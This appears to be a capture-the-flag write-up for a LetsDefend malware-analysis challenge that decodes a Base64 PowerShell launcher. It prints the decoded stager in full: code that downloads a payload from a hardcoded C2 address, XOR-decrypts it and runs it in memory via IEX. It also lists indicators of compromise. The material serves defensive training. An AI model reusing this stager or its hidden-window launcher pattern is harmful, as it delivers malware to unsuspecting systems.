


# 💻 PowerShell Script — LetsDefend Challenge

| | |
|---|---|
| **Platform** | [LetsDefend](https://app.letsdefend.io/challenge/powershell-script) |
| **Category** | Malware Analysis |
| **Difficulty** | Easy |
| **Status** | ✅ Solved (7/7) |
| **Credit** | ZaadoOfc / csnp.org |

---

## 🎯 Scenario

> You've come across a puzzling Base64 script, seemingly laced with malicious intent.
> Dissect and analyze this script, unveiling its true nature and potential risks.

- **File location:** `C:\Users\LetsDefend\Desktop\ChallengeFile\script.ps1`
- **Tool needed:** CyberChef

---

## 🧰 Tools used

- **CyberChef** — `From Base64` → `Decode text (UTF-16LE)`
- Text editor to read the `.ps1`

---

## 🔬 Analysis workflow

### 1. Read the launcher command
`script.ps1` contains a PowerShell launcher with obfuscation flags:

```
powershell.exe -NoP -sta -NonI -W Hidden -Enc JABXAEMAPQBOAGUAdwAt...
```

- `-NoP` → NoProfile
- `-sta` → single-threaded apartment
- `-NonI` → NonInteractive (no user interaction)
- `-W Hidden` → hidden window
- `-Enc` → Base64 EncodedCommand (hides the real code)



### 2. Decode the payload with CyberChef
PowerShell `-EncodedCommand` uses **Base64 over UTF-16LE**, so two steps are needed:

1. `From Base64`
2. `Decode text` → `UTF-16LE (1200)` (or `Remove null bytes`)

The decoded script:

```powershell
$WC=New-Object System.Net.WebClient;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$WC.Headers.Add('User-Agent',$u);
$Wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$K='IM-S&fA9Xu{[)|wdWJhC+!N~vq_12Lty';$i=0;
[char[]]$B=([char[]]($wc.DownloadString("http://98.103.103.170:7443/index.asp")))|%{$_-bxor$K[$i++%$k.Length]};
IEX ($B-join'')
```



### 3. Behaviour
This is a **downloader / stager**: it fetches a payload from a hardcoded C2,
XOR-decrypts it with the key `IM-S&fA9Xu{[)|wdWJhC+!N~vq_12Lty`, then executes it
in memory via `IEX` (Invoke-Expression) — leaving little on disk.

---

## ❓ Questions & Answers

| # | Question | Answer |
|---|----------|--------|
| 1 | What encoding is the malicious script using? | `Base64` |
| 2 | Parameter that hides the PowerShell window? | `-W Hidden` |
| 3 | Parameter that prevents the user from closing the process? | `-NonI` |
| 4 | Line that interacts with websites to retrieve info? | `$WC=New-Object System.Net.WebClient` |
| 5 | Spoofed user-agent string? | `Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko` |
| 6 | Line that sets the proxy credentials? | `$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials` |
| 7 | URL contacted to download the payload? | `http://98.103.103.170:7443/index.asp` |

---

## 📝 Summary / Lessons learned

- **`-EncodedCommand` = Base64 over UTF-16LE.** Decoding needs the UTF-16LE step,
  otherwise you get null bytes between characters.
- **Obfuscation flags are red flags:** `-W Hidden`, `-NonI`, `-NoP`, `-Enc` together
  scream "malware trying to run silently".
- **Fileless malware pattern:** download → XOR-decrypt → `IEX` in memory. Very little
  touches disk, which evades signature-based AV.
- **Spoofed User-Agent** helps the traffic blend in as a normal browser.
- **Random casing** (`New-ObjEcT`, `DOwNLOaDStRing`) is cosmetic obfuscation —
  PowerShell/.NET names are case-insensitive.

### Indicators of Compromise (IOCs)

| Type | Value |
|------|-------|
| C2 URL | `http://98.103.103.170:7443/index.asp` |
| C2 IP | `98.103.103.170:7443` |
| XOR key | `IM-S&fA9Xu{[)|wdWJhC+!N~vq_12Lty` |
| Spoofed UA | `Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko` |
